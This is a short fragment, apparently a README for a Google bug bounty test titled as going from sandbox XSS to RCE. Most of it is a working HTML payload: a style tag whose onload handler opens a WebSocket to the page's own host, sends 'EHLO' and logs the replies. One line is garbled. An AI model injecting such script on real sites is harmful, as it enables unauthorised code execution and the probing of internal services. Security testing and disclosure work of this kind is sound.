 # Google VRP testing  
from sandbox XSS to RCE 
## Getting Started
just l the preview for this 
<style onload="{
    url='wss://'+location.host+'/services'
    console.log(url) 
    ws=new WebSocket(url)
    ws.onopen=function() { 
        payload = 'EHLO'
        ws.send(payload)  
    }
    ws.onmessage=function(r) {
        console.log('r:'+r.data)
    } 
}
">


